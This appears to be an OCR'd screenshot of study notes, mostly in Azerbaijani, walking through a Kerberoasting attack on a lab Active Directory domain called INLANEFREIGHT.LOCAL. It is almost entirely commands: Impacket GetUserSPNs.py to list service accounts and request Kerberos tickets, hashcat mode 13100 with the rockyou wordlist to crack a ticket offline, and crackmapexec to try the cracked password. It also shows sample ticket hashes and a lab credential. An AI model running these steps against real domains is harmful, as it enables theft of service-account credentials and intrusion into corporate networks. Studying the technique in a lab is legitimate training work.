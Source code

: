 Kəşfiyyat: SPN Hesablarının Siyahısını Almaq (Get Accounts list which has ServicePrincipalName attribute)
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
INLANEFREIGHT.LOCAL/forend: Hücumu həyata keçirmək üçün istifadə olunan etibarlı domen hesabını (forend) və domenin adını (INLANEFREIGHT.LOCAL) təqdim edir.
Skript çalışdıqdan sonra parol soruşulur.

Biletləri Tələb Etmək və Çıxarmaq (Tapılmış SPN hesabları üçün Kerberos TGS biletlərini (şifrlənmiş heşləri) əldə etmək.)
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```
Nəticə: Çıxışda hər bir SPN üçün siyahı təkrarlanır, ardınca isə sındırma alətləri üçün uyğun formatda olan (Hashcat-in mode 13100 formatı) şifrlənmiş heşlər görünür:

$krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$...
$krb5tgs$23$*SOLARWINDSMONITOR$INLANEFREIGHT.LOCAL$...

Hədəf Biletləri Fayla Yazmaq
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Cracking offline
```shell
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

Testing Authentication against a Domain Controller

```shell
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```






